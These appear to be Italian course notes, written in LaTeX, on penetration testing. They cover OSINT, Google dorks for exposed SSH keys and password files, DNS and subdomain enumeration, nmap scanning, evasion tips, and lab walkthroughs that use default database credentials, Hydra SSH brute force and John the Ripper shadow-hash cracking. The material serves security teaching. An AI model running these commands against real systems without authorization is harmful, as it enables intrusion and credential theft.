	
\includegraphics[width=0.7\textwidth]{image 12.png}
\end{figure}

\section{PT – metodologie}

Seguire una metodologia garantisce che il test sia coerente, ripetibile e misurabile, senza pregiudizi o prove aneddotiche. Esistono standard consolidati come OSSTMM, OWASP (specifico per applicazioni web), PCI DSS (settore finanziario), NIST 800-115 e ISSAF. Il processo tipico si articola in: scoping $\to$ definizione delle regole $\to$ discovery $\to$ exploit testing $\to$ notification e reporting.

\noindent\rule{\textwidth}{0.4pt}

\section{Reconnaissance ed Enumeration}

La fase di \textbf{reconnaissance} consiste nella raccolta di informazioni utili e nell'estensione del perimetro di test. La fase di \textbf{enumeration} delimita e verifica puntualmente le risorse e le loro proprietà. Insieme costituiscono il primo anello della kill chain.

\section{OSINT}

L'\textbf{Open Source INTelligence} è l'uso di fonti pubblicamente disponibili per ricavare informazioni su un obiettivo specifico – un campo applicabile ben oltre la cybersecurity. In ambito offensivo serve a capire cosa un avversario può scoprire e come può usarlo.

Tramite OSINT è possibile rilevare: la collocazione fisica e geografica di un host, i domini DNS associati, i range di indirizzi IP, il provider e l'autonomous system, i certificati X.509, le porte raggiungibili, il fingerprinting del sistema operativo e delle versioni dei servizi, e talvolta anche username e password esposti. Un punto di partenza utile per gli strumenti disponibili è \href{https://osintframework.com/}{osintframework.com}.

\section{Google Dorking}

Le \textbf{Google Dork} sono operatori di ricerca avanzati che permettono di affinare i risultati di Google in modo molto preciso. Sono uno degli strumenti OSINT più potenti per mappare ed enumerare un target.

\begin{table}[H]
	\centering
	\begin{tabular}{|l|l|}
		\hline
		\textbf{Operatore} & \textbf{Funzione} \\ \hline
		\texttt{site:} & Elenca tutti gli URL indicizzati per un dominio \\ \hline
		\texttt{inurl:} & Filtra per keyword nell'URL \\ \hline
		\texttt{allinurl:} & Filtra per più keyword nell'URL \\ \hline
		\texttt{intitle:} & Filtra per keyword nel titolo della pagina \\ \hline
		\texttt{intext:} & Filtra per testo nel corpo della pagina \\ \hline
		\texttt{allintext:} & Filtra per più keyword nel corpo \\ \hline
		\texttt{filetype:} & Filtra per estensione del file \\ \hline
		\texttt{cache:} & Mostra la versione cached di un sito \\ \hline
		\texttt{link:} & Elenca le pagine che linkano un URL \\ \hline
		\texttt{*} & Wildcard \\ \hline
	\end{tabular}
\end{table}

La struttura generale di una query è \texttt{inurl:"dominio"/"dork"}. Alcuni esempi pratici:

\begin{lstlisting}[language=bash, caption=Esempi di Google Dorks]
	# Cerca file di log con credenziali
	allintext:password filetype:log after:2020
	
	# Cerca chiavi SSH indicizzate su un sito
	site:esempio.com intitle:index.of id_rsa -id_rsa.pub
	
	# Cerca PDF contenenti la parola "password"
	site:esempio.com filetype:PDF intext:password
	
	# Esplora server FTP aperti
	intitle:"index of" inurl:ftp
\end{lstlisting}

\textbf{Contromisura:} tutto ciò che Google trova è perché è stato indicizzato. Il file \texttt{robots.txt} permette di escludere directory dall'indicizzazione:

\begin{lstlisting}
	User-agent: *
	Disallow: /cartella-privata
\end{lstlisting}

\section{Infrastruttura di rete: IP e DNS}

Ogni host ha un indirizzo IP. I blocchi di IP sono assegnati dallo IANA ai Regional Internet Registry (RIR), che li sub-allocano ai Local Internet Registry (LIR), tenendo traccia dei responsabili. Allo stesso modo, lo IANA coordina i Top Level Domain, mentre i registrar gestiscono i domini di secondo livello.

\section{DNS Enumeration}

I record DNS possono rivelare moltissimo: gli IP registrati dall'obiettivo, l'esistenza di server applicativi specifici, sottoreti non direttamente raggiungibili, risorse cloud, e relazioni di fiducia tra domini (es. foreste Active Directory). Questo rende la DNS enumeration molto più efficiente della forza bruta.

\begin{table}[H]
	\centering
	\begin{tabular}{|l|l|}
		\hline
		\textbf{Tipo} & \textbf{Descrizione} \\ \hline
		\textbf{A} & Mappa un hostname a un IPv4 \\ \hline
		\textbf{AAAA} & Mappa un hostname a un IPv6 \\ \hline
		\textbf{CNAME} & Alias di un nome verso un altro \\ \hline
		\textbf{MX} & Mail exchange: server di posta per il dominio \\ \hline
		\textbf{NS} & Name server autoritativo per la zona \\ \hline
		\textbf{SOA} & Informazioni autoritative sulla zona DNS \\ \hline
		\textbf{TXT} & Testo generico (spesso usato per SPF, DKIM, ecc.) \\ \hline
		\textbf{PTR} & Reverse lookup (da IP a nome) \\ \hline
		\textbf{SRV} & Localizzazione di servizi generici \\ \hline
	\end{tabular}
\end{table}

Strumenti di base: \texttt{host}, \texttt{dig}, \texttt{nslookup}. Per ricerche più avanzate con guessing e forza bruta: \texttt{dnsrecon}, \texttt{dnsmap}, \texttt{dnsenum}, \texttt{fierce}.

Due aggravanti tipiche: l'abilitazione del \textbf{domain transfer} (che espone l'intera zona) e la \textbf{permanenza di record rimossi nelle cache}.

\section{Shodan}

\begin{figure}[H]
	\centering
	
\includegraphics[width=0.7\textwidth]{image 13.png}
\end{figure}

\href{https://www.shodan.io/}{Shodan.io} è un motore di ricerca per dispositivi connessi a Internet: permette di trovare host per banner, servizio, versione, paese, organizzazione. È uno strumento OSINT molto potente per scoprire l'esposizione di un'infrastruttura senza mai interagire direttamente con essa.

\section{Subdomain Enumeration}

\begin{figure}[H]
	\centering
	
\includegraphics[width=0.7\textwidth]{image 14.png}
\end{figure}

L'enumerazione dei sottodomini è una delle fasi più importanti della reconnaissance perché amplia enormemente la superficie d'attacco. Dietro a sottodomini secondari o ``dimenticati'' si nascondono spesso applicativi non aggiornati o esposti su porte non standard.

Le due strategie principali sono:
\begin{itemize}
	\item \textbf{Passiva:} si interrogano dataset pubblici già esistenti (SecurityTrails, Shodan, Censys, VirusTotal\dots). Tool come \texttt{amass} (OWASP) o \texttt{subfinder} aggregano queste fonti.
	\item \textbf{Attiva:} si interagisce direttamente con il target (DNS bruteforce, permutation, VHOST probing, recursive enumeration).
\end{itemize}

\subsection{Certificate Transparency Abuse}

Ogni volta che un'organizzazione richiede un certificato TLS, questo viene registrato in log pubblici di \textbf{Certificate Transparency} (RFC 6962). Chiunque può interrogarli per scoprire tutti i sottodomini storici. Esempio: \texttt{https://crt.sh/?q=\%.dominio.com}

\begin{figure}[H]
	\centering
	
\includegraphics[width=0.7\textwidth]{image 15.png}
\end{figure}

\noindent\rule{\textwidth}{0.4pt}

\section{Enumerazione degli host}

Una volta identificati i blocchi IP, si individuano gli host attivi. Oltre al classico \texttt{ping}, per scansioni massive si usa \texttt{masscan}. Su rete locale sono utili strumenti di sniffing passivo (\texttt{wireshark}) o \texttt{arping}.

\section{Enumerazione dei servizi}

Il tool principale è \textbf{nmap}. Permette fingerprinting del SO e delle versioni. Un'alternativa più veloce e stealth è \textbf{unicornscan}, che evita il reverse fingerprinting non usando lo stack TCP/IP dell'host di origine.

\section{Evasione}

\begin{itemize}
	\item \textbf{Anonimato:} uso di Tor, account usa e getta, VM volatili.
	\item \textbf{Stealth scanning:} temporizzazione lenta, randomizzazione di IP e porte.
	\item \textbf{Adattamento:} nmap offre tecniche per aggirare firewall e IDS/IPS.
\end{itemize}

\section{Postura interna}

L'auto-attacco dall'interno permette di scavalcare NIDS e firewall perimetrali, testando direttamente gli HIDS. Una rete \textbf{wireless} è un ottimo punto di ingresso: consente attacchi replay, deauthentication e creazione di Rogue AP.

\section{Scanner di vulnerabilità completi}

Testano le vulnerabilità a livello di rete, SO e applicazione tramite plugin (collegati alle CVE).
Il più noto è \textbf{Nessus}. L'equivalente open source è \textbf{Greenbone Community Edition (GCE)}, precedentemente OpenVAS.

\begin{figure}[H]
	\centering
	
\includegraphics[width=0.7\textwidth]{image 16.png}
\end{figure}

Il valore fondamentale sta nel \textbf{feed}: un database di Network Vulnerability Tests aggiornato quotidianamente.


\chapter{VA ed Enumeration}

\section{Reti IP: richiami essenziali}

Ogni indirizzo IPv4 è composto da 32 bit divisi in 4 byte, rappresentati in notazione decimale separata da punti (es. \texttt{137.204.59.1}). Ogni indirizzo appartiene a una sottorete (subnet), identificata da un indirizzo di rete. Per instradare un pacchetto non serve conoscere l'indirizzo preciso della destinazione: basta sapere a quale subnet appartiene.

\subsection{Classi di indirizzi e CIDR}
Storicamente gli indirizzi erano organizzati in classi rigide (A, B, C), con una divisione fissa tra \textit{network id} e \textit{host id}. Questo schema era inefficiente perché le classi avevano dimensioni predefinite e causava spreco di indirizzi.

La soluzione è il \textbf{CIDR} (\textit{Classless Inter-Domain Routing}): gli indirizzi vengono trattati come una stringa di 32 bit divisa in \textit{net-id} e \textit{host-id} in un punto arbitrario, non necessariamente per byte. L'unico vincolo è che la dimensione della rete sia una potenza di 2.

\subsection{Netmask, network address e broadcast}
La posizione della divisione è specificata dalla \textbf{netmask}: una sequenza di \texttt{1} pari al numero di bit del net-id, seguita da \texttt{0} per i bit dell'host-id. Ad esempio, una rete \texttt{/26} ha netmask \texttt{255.255.255.192}.

In ogni subnet due indirizzi sono riservati e non possono essere assegnati a host:
\begin{itemize}
	\item il \textbf{network address} (tutti i bit host-id a 0)
	\item il \textbf{broadcast} (tutti i bit host-id a 1)
\end{itemize}

\subsection{Raccolta di informazioni: blocchi IP}
Conoscere pochi indirizzi IP validi di un'organizzazione target può permettere di risalire a tutti i blocchi IP allocati a quell'ente, anche a quelli non immediatamente collegati. Gli strumenti di ricerca \textbf{RIPE} (il registro europeo degli indirizzi IP) sono utili a questo scopo.

\noindent\rule{\textwidth}{0.4pt}

\section{Doppio indirizzamento: IP e MAC}
Ogni dispositivo su Internet viene indirizzato tramite IP, ma sulla LAN fisica i dispositivi si riconoscono tramite indirizzo MAC. Il protocollo \textbf{ARP} (\textit{Address Resolution Protocol}, RFC 826) si occupa di tradurre un indirizzo IP nel corrispondente MAC, inviando una richiesta in broadcast sulla rete locale.

\begin{figure}[H]
	\centering
	
\includegraphics[width=0.7\textwidth]{image 17.png}
\end{figure}

\noindent\rule{\textwidth}{0.4pt}

\section{Assessment dall'interno}
Se si ha già accesso a un sistema nella rete, due strumenti utili per vedere i servizi esposti sono:

\begin{itemize}
	\item \textbf{\texttt{lsof -i}}: elenca i file aperti, incluse le socket di rete. Con il filtro \texttt{LISTEN|UDP} mostra i servizi in ascolto. Vale anche la pena eseguire \texttt{lsof | grep '(deleted)'} per trovare file cancellati ma ancora aperti da qualche processo.
	\item \textbf{\texttt{netstat}} (o il più recente \texttt{ss}): mostra lo stato delle connessioni di rete. Le opzioni più utili sono \texttt{l} (solo listening), \texttt{p} (processo associato), \texttt{n} (output numerico), \texttt{t}/\texttt{u} (TCP/UDP). Nota: \texttt{ss} non è SELinux-aware.
\end{itemize}

\noindent\rule{\textwidth}{0.4pt}

\section{Nmap}
\textbf{Nmap} è lo strumento standard per il network discovery e il port scanning. Per reti molto grandi esistono alternative più veloci come \texttt{masscan}, ma Nmap offre capacità di analisi molto più approfondite.

\subsection{Host discovery}
Per scoprire quali host sono attivi su una rete (senza scansionare le porte):

\begin{lstlisting}[language=bash]
	nmap -sn 192.168.56.0/24
\end{lstlisting}

\subsection{Scansione di porte e servizi}
La scansione base TCP si fa con \texttt{-sT}. Affidarsi solo al numero di porta per identificare il servizio è però rischioso: un servizio può girare su qualsiasi porta. L'opzione \texttt{-sV} fa \textit{version detection}, interrogando attivamente il servizio per identificarlo; \texttt{-A} abilita anche OS detection, script e traceroute. Per scansionare tutte le porte (non solo le 1000 più comuni):

\begin{lstlisting}[language=bash]
	nmap -sT -p- 192.168.56.32-34
	nmap -sV 192.168.56.32 -p 22,80,3306,5432
	nmap -sC -sV -oA output_porte.txt $IP
\end{lstlisting}

Nmap supporta anche moduli NSE (Nmap Scripting Engine) che lo trasformano in un vero tool di vulnerability assessment.

\subsection{Risultato atteso (lab)}
\begin{lstlisting}
	Nmap scan report for 192.168.56.32
	PORT     STATE SERVICE    VERSION
	22/tcp   open  ssh        OpenSSH 9.2p1 Debian
	80/tcp   open  http       Apache httpd 2.4.65
	3306/tcp open  mysql      MariaDB (unauthorized)
	5432/tcp open  postgresql PostgreSQL DB 9.6+
	
	Nmap scan report for 192.168.56.33
	PORT     STATE SERVICE  VERSION
	22/tcp   open  ssh      OpenSSH 9.2p1 Debian
	25/tcp   open  smtp     Postfix smtpd
	110/tcp  open  pop3     Dovecot pop3d
	143/tcp  open  imap     Dovecot imapd
	993/tcp  open  ssl/imap Dovecot imapd
	995/tcp  open  ssl/pop3 Dovecot pop3d
	1337/tcp open  ssh      OpenSSH 9.2p1 Debian   <- inizialmente classificato "waste"!
	
	Nmap scan report for 192.168.56.34
	PORT     STATE SERVICE     VERSION
	22/tcp   open  ssh         OpenSSH 9.2p1 Debian
	53/tcp   open  domain      ISC BIND 9.18
	80/tcp   open  http        Apache httpd 2.4.65
	139/tcp  open  netbios-ssn Samba smbd 4
	445/tcp  open  netbios-ssn Samba smbd 4
	8000/tcp open  ???         (richiede username/password, servizio non riconosciuto)
	8001/tcp open  http        Werkzeug httpd 3.1.3 (Python)
\end{lstlisting}

\noindent\rule{\textwidth}{0.4pt}

\section{Approfondimento dei servizi}
Nmap fornisce un primo quadro, ma per capire davvero cosa gira su una porta bisogna interagire con il servizio. Strumenti utili:
\begin{itemize}
	\item \textbf{Connessione TCP grezza}: \texttt{nc} (netcat) o \texttt{openssl s\_client} per TLS
	\item \textbf{Client nativi}: \texttt{smbclient}, \texttt{psql}, \texttt{mariadb}, \texttt{ftp}, \texttt{ssh}, \dots
	\item \textbf{Tool specializzati}: \texttt{smbmap}, \texttt{sqlmap}, e in generale i framework di pentesting specifici per ogni servizio
\end{itemize}

\subsection{Misconfiguration dei servizi (lab)}
Un errore di configurazione può rivelare informazioni sensibili o addirittura esfiltrare dati. Alcuni esempi pratici con i target del lab:

\textbf{SMTP} --- Connettendosi con \texttt{nc 192.168.56.33 25} il banner rivela: \texttt{220 Talk to Postgres admin to get more info}. Un indizio prezioso.

\textbf{PostgreSQL/MariaDB} --- I database non dovrebbero essere accessibili dall'esterno della rete locale. In questo caso lo sono, e si può accedere con le credenziali di default:

\begin{lstlisting}[language=bash]
	psql -U admin -h 192.168.56.32 -W -l       # lista database
	psql -U admin -h 192.168.56.32 -W accounts_db
	\dt                                        # lista tabelle
	SELECT * FROM accounts;                    # lettura dati
\end{lstlisting}

La password è \texttt{admin}. Il database \texttt{accounts\_db} contiene la tabella \texttt{accounts} con credenziali utente.

Da esplorare anche: HTTP (porte standard e non), MySQL, POP/IMAP, NetBIOS/SMB.

\noindent\rule{\textwidth}{0.4pt}

\section{Greenbone Security Assistant (OpenVAS)}
In parallelo all'esplorazione manuale, si può avviare un \textbf{Vulnerability Assessment} automatizzato con Greenbone/OpenVAS. Su Parrot:

\begin{lstlisting}[language=bash]
	cd ~/greenbone-community-container
	docker compose up
	# poi aprire https://127.0.0.1:9392  (credenziali: admin:admin)
\end{lstlisting}

La prima sincronizzazione dei feed può richiedere ore. Una volta dentro, si crea un \textit{task} definendo un \textit{target} (IP e porte): avendo già i risultati di nmap, si può rendere la scansione più mirata ed efficiente.

\noindent\rule{\textwidth}{0.4pt}

\section{Brute forcing di account}
Una volta trovati servizi autenticati, si può tentare di scoprire credenziali valide in due modi:
\begin{itemize}
	\item \textbf{Guessing/Dictionary attack}: si provano password note (liste di password leaked, nomi comuni, wordlist pre-costruite come \texttt{rockyou.txt})
	\item \textbf{Brute forcing}: si generano sistematicamente tutte le combinazioni possibili
\end{itemize}

Lo strumento principale è \textbf{Hydra}, che supporta moltissimi protocolli (SSH, FTP, HTTP, SMTP, \dots) e può lavorare sia con wordlist che con generazione on-the-fly.

\begin{lstlisting}[language=bash]
	hydra -l guest -P /usr/share/wordlists/rockyou.txt -s 23 192.168.56.101 ssh
\end{lstlisting}

\begin{figure}[H]
	\centering
	
\includegraphics[width=0.7\textwidth]{image 18.png}
\end{figure}

\subsection{Hydra con PIN a 4 cifre (lab)}
Dopo aver fatto accesso via SSH con le credenziali trovate nel database, un file \texttt{note.txt} suggerisce: \textit{"to get full control of t-2, use your 4-digit pin"}. Si può tentare un brute force di root su \texttt{192.168.56.33:1337} generando tutte le combinazioni numeriche a 4 cifre:

\begin{lstlisting}[language=bash]
	hydra -l root -x 4:4:1 ssh://192.168.56.33:1337
\end{lstlisting}

(\texttt{-x 4:4:1} genera password di lunghezza 4, usando cifre 0-9)

\noindent\rule{\textwidth}{0.4pt}

\section{Enumerazione delle password dall'interno}
L'attacco esterno è lento e facilmente rilevabile. Se si ottiene accesso a un sistema, si può lavorare direttamente sugli hash delle password, che su Linux si trovano in \texttt{/etc/shadow}. L'hash non è invertibile, ma si può procedere per tentativi: si calcola l'hash di ogni password candidata e si confronta con quelli nel file.

\subsection{John the Ripper}

\begin{figure}[H]
	\centering
	
\includegraphics[width=0.7\textwidth]{image 19.png}
\end{figure}

John the Ripper lavora in tre modalità principali (nei comandi d'esempio si assume di aver isolato gli hash in un file chiamato \texttt{credentials} e che il formato dell'hash sia il classico di Linux, ovvero \texttt{crypt}):

\begin{itemize}
	\item \textbf{Single mode} --- usa informazioni ricavate dall'account stesso (es. username e GECOS) per costruire varianti di password probabile. Veloce, da provare sempre per primo.\\
	\texttt{john --single --format=crypt credentials}
	
	\item \textbf{Wordlist} --- attacco a dizionario con una lista di password. Su Parrot sono disponibili diverse wordlist in \texttt{/usr/share/wordlists/}, tra cui la popolare \texttt{rockyou.txt}.\\
	\texttt{john --format=crypt -w=/usr/share/wordlists/rockyou.txt credentials}
	
	\item \textbf{Incremental} --- brute force puro: genera e prova tutte le combinazioni di caratteri. Lento, ma non richiede una wordlist.\\
	\texttt{john --format=crypt --incremental credentials}
\end{itemize}

\subsection{Attacco mirato: John + CUPP (lab)}
I dati personali trovati nel file \texttt{passwd.bak} (recuperato dalla home di root) permettono un attacco mirato. \textbf{CUPP} (\textit{Common User Passwords Profiler}) genera una wordlist personalizzata a partire da informazioni sulla vittima (nome, data di nascita, familiari, ecc.), producendo migliaia di varianti plausibili. La wordlist risultante si passa poi a John per craccare gli hash di \texttt{shadow.bak}.

\begin{lstlisting}[language=bash]
	python3 cupp.py -i        # inserire le info sulla vittima
	john --format=crypt -w=michael.txt credentials
\end{lstlisting}

\begin{figure}[H]
	\centering
	
\includegraphics[width=0.7\textwidth]{image 20.png}
\end{figure}

\chapter{Auth}

\section{La regola AAA}

La sicurezza informatica si fonda su tre pilastri fondamentali, noti come regola \textbf{AAA}.

\textbf{L'autenticazione} è l'attribuzione certa dell'identità di un soggetto che utilizza le risorse di un sistema. Normalmente include una fase preliminare di identificazione, ed è importante non confondere le due cose: un errore comune è usare elementi identificativi come se fossero segreti autenticanti, solo perché sembrano ``oscuri''.

\textbf{L'autorizzazione} è la verifica dei diritti di un soggetto di compiere una determinata azione su un oggetto. Implica una decisione esplicita di concessione o negazione del permesso, distinta dall'autenticazione.

\textbf{L'auditing} è il tracciamento affidabile di tutte le decisioni di autenticazione e autorizzazione, utile per verificare l'efficacia delle politiche di sicurezza. Comporta un compromesso difficile tra il livello di dettaglio registrato (utilità) e la gestibilità dei log (usabilità).

\noindent\rule{\textwidth}{0.4pt}

\section{Fattori di autenticazione}

L'autenticazione si basa su uno o più dei seguenti fattori, cioè qualcosa che solo l'utente legittimo possiede:

\begin{itemize}
	\item qualcosa che \textbf{conosce} (password, PIN, risposta segreta)
	\item qualcosa che \textbf{possiede} (carta bancomat, telefono, hard token, YubiKey)
	\item qualcosa che \textbf{è} fisicamente (biometria: iride, impronta digitale)
	\item qualcosa che riguarda la sua \textbf{posizione} (GPS, geolocation, centralizzata domotica)
\end{itemize}

La distinzione centrale che seguirà è tra due modalità di dimostrazione del possesso di un segreto: l'autenticazione passiva e quella attiva.

\noindent\rule{\textwidth}{0.4pt}

